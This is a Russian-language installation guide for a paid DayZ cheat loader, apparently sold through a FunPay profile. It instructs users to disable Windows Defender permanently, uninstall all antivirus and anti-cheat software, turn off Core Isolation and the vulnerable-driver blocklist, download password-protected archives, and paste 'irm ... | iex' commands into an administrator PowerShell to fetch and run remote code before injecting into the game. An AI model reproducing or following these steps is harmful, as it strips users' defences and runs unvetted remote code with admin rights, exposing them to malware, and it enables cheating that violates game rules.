

# Как запустить Dayz

<figure><figcaption></figcaption></figure>

**МОЙ FUNPAY** - [https://funpay.com/users/4526933/](https://funpay.com/users/4526933/)

**МОЙ FUNPAY** - [https://funpay.com/users/4526933/](https://funpay.com/users/4526933/)

**МОЙ FUNPAY** - [https://funpay.com/users/4526933/](https://funpay.com/users/4526933/)

***

### 1. Установка нужных библиотек и архиватора

1. **.NET Framework**

* Установите последнюю версию - [ссылка](https://drive.google.com/file/d/1rNkK5EjYN94Zv1Lz82CjJ_ovA15r42mY/view?usp=sharing)
* Запустите приложение и следуйте инструкциям

2. **Visual C++ Redistributable**

* Установите последнюю версию - [ссылка](https://drive.google.com/file/d/1-MAtvixkw43959-WtNi-VQU_weMeZsc-/view?usp=sharing)
* Запустите приложение и следуйте инструкциям

3. **DirectX**

* Установите последнюю версию - [ссылка](https://drive.google.com/file/d/19jF0U9gxYGgPWNBFyVe-dTOA0S-nOEMG/view?usp=sharing)
* Запустите приложение и следуйте инструкциям

4. **WinRAR**&#x20;

* Установите последнюю версию - [ссылка](https://drive.google.com/file/d/10_CpTVkO-4uzPlhhYki8XqnnCVlWVJLA/view?usp=sharing)

***

### 2. Подготовка системы к первому запуску

1. **Отключение Безопасность Windows**

* Перейдите в параметры системы (вы можете нажать комбинацию WIN + I)
* Откройте **Безопасность Windows**
* Отключите параметр **"Защита в реальном времени"**

<figure><figcaption></figcaption></figure>

2. Окончательно отключите **Безопасность Windows** с помощью программы **dControl**

* **Google Drive** - [ссылка для загрузки](https://drive.google.com/file/d/19G3C5Gg1KDr1W05jhwwB6xeMx8PG_IrU/view?usp=sharing) (пароль 1234)
* **Yandex Disk** - [ссылка для загрузки](https://disk.yandex.ru/d/pLPzChHbwskWNQ) (пароль 1234)
* **Mega** - [ссылка для загрузки](https://mega.nz/file/Vr9EUSKB#Sn0bze9l49paasaCZqYPkAodQwo5avSpUWVzo5f4x38)

<figure><figcaption>
<strong>Нажмите "</strong><mark style="color:red;"><strong>Отключить Защитник Windows</strong></mark><strong>"</strong> 
</figcaption></figure>


Если ваш браузер блокирует загрузку, решение можно найти [здесь](../reshenie-problem-zapuska/brauzer-blokiruet-zagruzku-faila.md)


3. **Удаление конфликтующего программного обеспечения**

Следующие программы необходимо **полностью удалить**, а не просто закрыть:

* **Античит FACEIT, Vanguard**
* Любой сторонний антивирус (Avast, Kaspersky, McAfee, ESET, Bitdefender и т. д.)


Если установлен FACEIT AC или сторонний антивирус, продукт **не будет работать** независимо от других настроек.



**ПОСЛЕ ВСЕХ ДЕЙСТВИЙ ПЕРЕЗАГРУЗИТЕ ПК**


***

### 3. Установка **FPS Monitor**

Установите **FPS Monitor** и настройте его точно так же, как показано на GIF ниже.\
[Скачать FPS Monitor](https://drive.google.com/file/d/1EG5IvT3Epn97M4wXxIRNxvvOnk2n82SE/view?usp=sharing)

<figure><figcaption></figcaption></figure>

### 4. Установка лоадера

1. Отключение компонентов Core Isolation
   1. Откройте параметры Windows (нажмите Win + I)
   2. перейдите в Конфиденциальность и защита → Безопасность windows → Безопасность устройства и выключите все доступные параметры защиты.
   3. Перезагрузите ПК — после перезапуска станет доступен пункт Список заблокированных уязвимых драйверов (Майкрософт)
   4. Отключите его и снова перезагрузите компьютер для применения изменений.
2. Откройте поиск Windows

Нажмите на строку поиска Windows (обычно она находится внизу слева).

3. Откройте **PowerShell** от имени администратора

Введите **PowerShell** в поиске и выберите **«Запуск от имени администратора»**

4. Выполните команду в PowerShell

Скопируйте команду для вашего региона, вставьте её в PowerShell и нажмите **Enter**.

Для пользователей из России `irm alt.stayud.com/boot | iex`

Для пользователей из других стран `irm cheese-project.com | iex`

***

### 5. Процесс инжекта

1. Запустите лоадер и авторизуйтесь с ключом

<figure><figcaption></figcaption></figure>

2. После входа в лоадер, нажмите кнопку **LOAD**

<figure><figcaption>
<strong>Нажмите LOAD</strong>
</figcaption></figure>


Если после нажатия кнопки **Start load** у вас возникла ошибка, решение можно найти [здесь](../reshenie-problem-zapuska/)


3. Дождитесь, пока надпись **“External bootstrap”** исчезнет и лаунчер закроется.
4. Откройте **FPS Monitor**.
5. После этого <mark style="color:$danger;">самостоятельно</mark> запустите **DayZ**.
6. Для открытия меню нажимаем клавишу “DELETE” на клавиатуре, на этом моменте:


**Важно:** нажимайте **DELETE** именно в указанный момент на экране, как показано на скриншоте ниже.


<figure><figcaption></figcaption></figure>


Если после нажатия клавиши Delete у вас не появляется меню, решение можно найти [здесь](../reshenie-problem-zapuska/net-effekta-pri-nazhatii-delete.md)


Для того что бы закрыть/открыть меню нажмите клавишу <mark style="color:red;"><strong>DELETE</strong></mark>

